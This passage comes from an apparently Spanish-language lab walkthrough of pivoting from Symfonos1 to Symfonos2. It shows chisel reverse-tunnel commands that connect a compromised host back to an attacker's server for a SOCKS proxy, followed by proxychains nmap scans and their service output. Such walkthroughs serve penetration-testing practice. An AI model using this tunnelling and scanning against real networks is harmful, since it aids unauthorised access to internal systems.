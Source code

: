 ```bash
#Atacante
❯ ./chisel server --reverse -p 1234
2023/01/02 11:01:42 server: Reverse tunnelling enabled
2023/01/02 11:01:42 server: Fingerprint SLf70qZ8u1T/5WfZrBSnlsTXOZJy7f/w6elCaFW8bWU=
2023/01/02 11:01:42 server: Listening on http://0.0.0.0:1234
2023/01/02 11:02:08 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

```bash
#Inferno
bash-4.4# ./chisel client 192.168.1.148:1234 R:socks
2023/01/02 04:02:09 client: Connecting to ws://192.168.1.148:1234
2023/01/02 04:02:09 client: Connected (Latency 639.323µs)
```
Añadimos al firefox una regla en el add-on Foxy proxy de la siguiente forma y ya podemos acceder por el navegador directamente a la máquina `Symfonos2` por el puerto 80

<img src="/assets/VH/Symfonos1-Symfonos2/web2.png">

Continuamos con la enumeración de los **500** puertos más comunes en la máquina.

```ruby
❯ proxychains nmap -p- --top-ports 500 --open -T5 -v -n -sT -Pn 10.10.0.137 2>&1 -oG allPorts | grep -vE "timeout|OK"

PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```
Luego de identificar los puertos abiertos `OPEN`, se procede a escanear servicios y versiones que puedan estar corriendo en los puertos abiertos detectados.

```ruby
proxychains nmap -sT -Pn -sCV -p21,22,80,139,445 10.10.0.137 -oN targeted

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.5
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:5f:87:20:e5:8c:fa:68:47:7d:71:62:08:ad:b9 (RSA)
|   256 04:2a:bb:06:56:ea:d1:93:1c:d2:78:0a:00:46:9d:85 (ECDSA)
|_  256 28:ad:ac:dc:7e:2a:1c:f6:4c:6b:47:f2:d6:22:5b:52 (ED25519)
80/tcp  open  http        WebFS httpd 1.21
|_http-title: Site doesn t have a title (text/html).
|_http-server-header: webfs/1.21
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
Service Info: Host: SYMFONOS2; OSs: Unix, Linux; CPE: cpe: o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-01-02T10:18:41
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
```